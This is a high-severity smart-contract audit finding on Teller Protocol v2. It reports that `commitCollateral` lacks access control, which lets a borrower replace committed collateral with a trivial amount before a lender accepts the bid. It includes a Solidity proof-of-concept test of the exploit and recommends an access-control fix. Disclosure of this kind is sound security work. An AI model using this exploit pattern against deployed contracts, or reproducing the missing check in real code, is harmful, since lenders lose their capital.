 PawelK

high

# Malicious update of bid with `commitCollateral` function

## Summary

The borrower (or any other user), can change the collateral amount without changing the bid, which results in losing capital for the lender. 


## Vulnerability Detail

Collateral is transferred to escrow when lender accepts the bid. Deposit happens in this function https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/CollateralManager.sol#L189 and it uses `collateral.collateralInfo` to get the info what collateral it should transfer.
The problem is that `colletaralInfo` can be set to any value by anyone with the `commitCollateral` https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/CollateralManager.sol#L117 . 
This allows the borrower to frontrun the `acceptBid` function, and set collateral to some worthless asset or/and value. It can even not be a frontrun function, because changing `colletaralInfo` via `commitCollateral`  doesn't change `bid` inside  `TellerV2.sol`, so the lender can simply not see that.
We can easily imagine that someone takes 10 mln DAI loan giving 1 wei ETH collateral in exchange.

## Impact

Lost capital by lender.

## Code Snippet
Test inside the `TellerV2_Test.sol`, 

1. Borrower submits bid for 10 WETH
2. Borrower commits collateral for 1 WETH
3. Lender accepts bid thinking that he will get 10 WETH as collateral

```solidity
function test_maliciousUpdateOfCommitCollateral() public {
        assertEq(wethMock.balanceOf(address(borrower)), 50000, "borrower balance WETH before loan");
        assertEq(daiMock.balanceOf(address(borrower)), 50000, "borrower balance DAI before loan");
        assertEq(wethMock.balanceOf(address(lender)), 500000, "lender balance WETH before loan");
        assertEq(daiMock.balanceOf(address(lender)), 500000, "lender balance DAI before loan");


        // Submit bid as borrower
        uint256 bidId = submitCollateralBid();

        (,,,address principalTokenAddress, uint256 principalAmount,,) = tellerV2.getLoanSummary(bidId);

        assertEq(address(daiMock), principalTokenAddress, "principalAmount");
        assertEq(principalAmount, 100, "principalAmount");

        Collateral[] memory collateralInfo = new Collateral[](1);
        collateralInfo[0] = Collateral({
            _amount: 1,
            _tokenId: 0,
            _collateralType: CollateralType.ERC20,
            _collateralAddress: address(wethMock)
        });


        collateralManager.commitCollateral(bidId, collateralInfo); // frontrun the acceptBid

        (,,,address principalTokenAddressAfterCommitChange, uint256 principalAmountAfterCommitChange,,) = tellerV2.getLoanSummary(bidId);

        assertEq(address(daiMock), principalTokenAddressAfterCommitChange, "principalAmount");
        assertEq(principalAmountAfterCommitChange, 100, "principalAmount"); // amount was not updated even though commitCollateral was called

        // Accept bid as lender
        acceptBid(bidId);

        assertEq(wethMock.balanceOf(address(borrower)), 49999, "borrower balance WETH after loan"); // should be 49990 if protocol would work correctly, but only 1 wei was transfered to escrow
        assertEq(daiMock.balanceOf(address(borrower)), 50095, "borrower balance DAI after loan");
        assertEq(wethMock.balanceOf(address(lender)), 500000, "lender balance WETH after loan");
        assertEq(daiMock.balanceOf(address(lender)), 499900, "lender balance DAI after loan");

    }

```
## Tool used

Manual Review

## Recommendation

Add the onlyTellerV2  modifier for `commitCollateral` function in `CollateralManager.sol` so malicious update of the bid won't be possible.
